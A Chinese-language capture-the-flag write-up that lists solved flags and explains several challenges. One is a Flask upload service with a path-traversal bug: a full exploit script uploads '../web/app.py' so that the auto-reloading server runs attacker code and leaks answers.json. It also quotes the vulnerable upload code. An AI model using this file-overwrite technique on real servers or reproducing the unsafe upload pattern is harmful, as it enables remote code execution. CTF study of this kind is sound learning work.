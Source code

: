 1. **`flag{bru7e_f0rce_1s_a1l_y0u_n3ed_e487e39c43}`**
2. **`flag{prun1ng_1s_u5eful_f493badcaf}`**
3. **`flag{lin3ar_alg3bra_1s_p0werful_d599861895}`**

(以及 Copilot 自动补全的两个 fake flag)

4. flag{g4uss_j0rdan_3liminat10n_1s_c00l_8d5f2d3b7e}
5. flag{g4lo1s_f13lds_4re_4w3s0me_7f4d6b4b0a}


## 禁止内卷

最开始想按照代码逻辑，枚举每一位看方差的改变值反推出原本的值。尝试后发现因为负分数会被转换成 0，所以并不能还原出每一位。

再读一遍源码发现了一个很经典的路径穿越漏洞：
```python
file = request.files['file']
filename = file.filename
filepath = os.path.join(UPLOAD_DIR, filename)
file.save(filepath)
```
只要我们上传的文件名里使用 `../` 就可以把文件保存到任意目录下。  
这有什么用呢？因为启动服务器的时候开了 ``--reload`，所以我们可以传一个新的代码文件上去让服务器自动加载。而其中的代码只要把 `answer.json` 的内容返回给我们就好了。

```python
import requests

addr = ""
file = """
from flask import Flask

app = Flask(__name__)


@app.route("/")
def index():
    with open("answers.json") as f:
        return f.read()
"""

requests.post(f"{addr}/submit",files={"file": ("../web/app.py", file)},)
response = requests.get(addr)
print("".join(chr(x + 65) for x in response.json()))
```

**`flag{uno!!!!_esrever_now_U_run_MY_c0de60c0c47c42}`**


## 哈希三碰撞

> 这是 binary 吗？

### 三碰撞之一

丢进 ida 之后发现把每个输入进行 `hex_to_int` 之后调库算了一个摘要。挂 `gdb` 运行了一下发现算的 SHA256。随便丢一个输入进去发现只复制比较了三个 SHA256 的最后 8 个字节，所以随机碰撞一下 SHA256 的后缀提交即可。
